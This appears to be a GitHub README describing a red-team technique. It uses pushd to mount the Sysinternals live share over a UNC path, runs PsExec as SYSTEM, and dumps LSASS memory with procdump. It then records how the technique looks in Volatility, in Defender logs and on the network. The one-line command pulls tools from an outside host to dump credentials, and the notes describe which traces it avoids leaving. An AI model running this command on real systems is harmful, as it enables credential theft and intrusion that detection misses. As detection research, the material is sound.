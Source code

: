 # pushdTTPIdea

Messing aroung with a TTP idea I had during a red team engagement:  

pushd \\live.sysinternals.com\tools && psexec -s -i -d procdump.exe -accepteula -ma lsass.exe test.txt  

    • Creating a temporary share by UNC path
    • Invoke PsExec -s to gain SYSTEM (psexec does not live on my device)
    • Run further TTP (in this example, just a basic Lsass dump with procdump on src host but of course this can be RCE)  



 ![image](https://github.com/jkerai1/pushdTTPIdea/assets/55988027/bd13b77d-5d27-429a-a359-7dfec7abf8b4)
    
The Sysinternal binaries don't seem to exist on my disk but rather in memory  

In Pslist from volatility:  

![image](https://github.com/jkerai1/pushdTTPIdea/assets/55988027/be317d68-30f5-4db9-9b26-9c5be70ef8d2)


PsExec does not seem to exist on my Disk if I try to filescan from volatility.  

On Defender Side:

Comparision of psexec paths – Note missing hash:  

![image](https://github.com/jkerai1/pushdTTPIdea/assets/55988027/a043b198-a2b1-4751-bb96-838c720b63bd)

Procs within the pushd not logged – Note path of “Y” was randomly chosen (by default its Z but I tried this twice):  
![image](https://github.com/jkerai1/pushdTTPIdea/assets/55988027/f4f40c8e-70b3-41fb-a3a8-8e69fdbe7b4d)

![image](https://github.com/jkerai1/pushdTTPIdea/assets/55988027/be7351f5-422f-4479-b658-4640dbb328c8)


On network Side:  

![image](https://github.com/jkerai1/pushdTTPIdea/assets/55988027/195f9bcf-bec1-4945-bdb3-d92dbe4f74b2)

Looks like fallback to WebDav over Port 80 rather than SMB

Just to validate before SMB memes:

![image](https://github.com/jkerai1/pushdTTPIdea/assets/55988027/0a786a2e-4bf1-4ba0-bb2c-349a5ab5aad3)
